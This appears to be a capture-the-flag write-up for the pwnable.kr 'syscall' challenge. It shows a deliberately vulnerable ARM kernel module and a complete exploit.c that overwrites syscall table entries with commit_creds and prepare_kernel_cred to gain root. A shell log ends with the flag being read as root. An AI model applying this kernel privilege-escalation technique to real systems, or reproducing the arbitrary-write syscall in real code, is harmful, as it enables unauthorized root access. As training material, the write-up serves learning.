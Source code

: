 ```yaml
---
title: "pwnable.kr: syscall"
tags: Kernel
style: fill
color: warning
comments: true
description: syscall overwriting
---
```


# syscall

The following challenge is brought from [pwnable.kr](https://pwnable.kr).

The ```syscall``` challenge emulates ARM kernel and allows us to overwrite parts of the memory by using its own syscall.

## Analysis

The challenge provides a source code:
```c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define NR_SYS_UNUSED 223

// Pointers to re-mapped writable pages
unsigned int **sct;

asmlinkage long sys_upper(char *in, char *out)
{
	int len = strlen(in);
	int i;
	for (i = 0; i < len; i++)
	{
		if (in[i] >= 0x61 && in[i] <= 0x7a)
		{
			out[i] = in[i] - 0x20;
		}
		else
		{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void)
{
	sct = (unsigned int **)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void)
{
	return;
}

module_init(initmodule);
module_exit(exitmodule);
```

The corresponding kernel module, ```m.ko``` , creates a new syscall called sys_upper which takes in two pointers and writes byte from ```in``` to ```out```.

We can attack this by overwriting parts of syscall table and calling the overwritten syscall, just like GOT overwriting, but for syscall.

## Exploit

The syscall table address is given, so there does not need to be a kernel leak.

We can replicate syscall table and reference it- since given by kernel.
And call the new syscall ```SYS_UPPER``` to overwrite two arbitrary syscalls with ```commit_creds``` and ```prepare_kernel_cred```, respectively.
Finally, we can call the overwritten syscall and pop shell.

### prepare & commit addresses

We can get them by using:
```bash
/tmp # cat /proc/kallsyms | grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/tmp # cat /proc/kallsyms | grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

### roadblock

The ```sys_upper``` function, however, alters certain bytes: (b'a' - b'z') into (b'A' - b'Z'). i.e. changes lower case ascii letters to upper case.

So the last byte of ```commit_creds```, 0x6c, cannot pass the filter.
So we can instead pass 0x60 for the last byte and add a 12 byte padding before commit_creds.

The padding can be anything, but I found that people usually like ```mov r1, r1``` which translates to ```\x01\x10\xa0\xe1```. One can use online ARM assembler for this. So it's like the usual NOP sled, but not really.

### exploit.c

Using the information above, the final exploitation script looks something like this:
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/syscall.h>

#define SYS_CALL_TABLE 0x8000e348
#define SYS_UPPER 223

unsigned int **sct;
char *commit_creds = "\x60\xf5\x03\x80"; // 0x8003f56c - 0xc
char *prepare_kernel_cred = "\x24\xf9\x03\x80";
char *nop = "\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1";

int main()
{
    sct = (unsigned int **)SYS_CALL_TABLE;

    syscall(SYS_UPPER, nop, 0x8003f56c - 0xc); // "nop" sled/padding
    syscall(SYS_UPPER, commit_creds, &sct[11]);
    syscall(SYS_UPPER, prepare_kernel_cred, &sct[12]);

    syscall(11, syscall(12, 0));
    system("/bin/sh");

    return 0;
}
```

```bash
/tmp $ id
uid=1000 gid=1000 groups=1000
/tmp $ vi exp.c
/tmp $ gcc -o exp exp.c
./exp/tmp $ ./exp
/bin/sh: can't access tty; job control turned off
/tmp # cat /root/flag
Congratz!! [FLAG]
```

Thanks,

079
